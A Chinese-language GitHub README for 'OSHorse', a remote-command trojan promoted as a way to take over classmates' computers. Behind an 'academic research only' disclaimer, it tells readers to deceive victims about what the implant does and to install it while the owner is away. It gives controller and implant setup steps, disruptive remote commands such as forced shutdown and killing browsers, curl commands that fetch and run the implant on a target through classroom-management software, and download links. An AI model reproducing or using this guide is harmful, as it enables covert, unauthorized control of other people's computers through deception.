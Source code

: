 # OSHorse，轻松控制同学电脑！
### 免责声明：仅供学术研究使用。对于违反相关法律、造成危害的滥用行为，开发者不负任何责任。
### Disclaimer: For academic research purposes only. Developers are not responsible for any abuse that violates relevant laws and causes harm.

## 有关这个项目
最近一直在找机会研究如何破解极域电子教室，结果百度了几下，看到某篇利用电子教室控制同学的教程。

呃，这似乎有点麻烦，不如自己写一个罢…？

来看看这个远程命令程序！

个人博客介绍：https://blog.helloos.eu.org/index.php/blog/13

## 小技巧：
1. 谎称connecter.exe是个利用host加速的程序
2. 谎称输入控制机器的IP地址是要激活程序

当然你在同学不在的时候植入木马是最佳选择！

## 使用方法
1. 在控制机器上下载（链接附在文末）`HorseCommander.exe`，并在程序同一目录下新建文本文档，重命名为`connect.txt`，内容为连接端口（建议为8888或8080），然后打开程序。（切记，一定要先打开控制端！）
2. 在目标机器上下载`connecter.exe`，并在程序同一目录下新建文本文档，重命名为`connect.txt`，内容 第一行为控制机器的IP地址（输入`ipconfig`查看，一般格式为`192.168.*.*`），第二行为连接端口（与上文端口相同）。双击打开程序，目标机器可能会闪过一个黑框。
3. 回到控制机器，会显示连线者IP地址并显示提示符，您现在可以远程执行命令啦！

TIPS: 这个提示符的界面和cmd不一样，你可以执行`cd .`来查看目标机器上木马的工作目录，输入`help`查看木马内置命令。

坑同学小命令：
```cmd
#关机
shutdown -s -t [时间，单位为秒]
#重启
shutdown -r -t [时间，单位为秒]
#关闭chrome浏览器
taskkill -f -im chrome.exe
#关闭edge浏览器
taskkill -f -im msedge.exe
#弹出计算器
calc
#锁屏
lock
#弹窗
msg [消息]
```

## 使用极域电子教室反控制软件植入木马
本地
```cmd
curl "https://helloosdisk.wdfiles.com/local--files/file:software/HorseCommander.exe" --output ./connecter.exe
echo [端口]>>connect.txt
ipconfig
```
远程
```cmd
cd %%temp%%/../../../Documents
curl "https://helloosdisk.wdfiles.com/local--files/file:software/connecter.exe" --output ./connecter.exe
echo [你的内网IP]>>connect.txt
echo [端口]>>connect.txt
./connecter.exe
```
## 下载
[下载HorseCommander.exe(控制)](https://helloosdisk.wdfiles.com/local--files/file:software/HorseCommander.exe)

[下载connecter.exe(目标)](https://helloosdisk.wdfiles.com/local--files/file:software/connecter.exe)
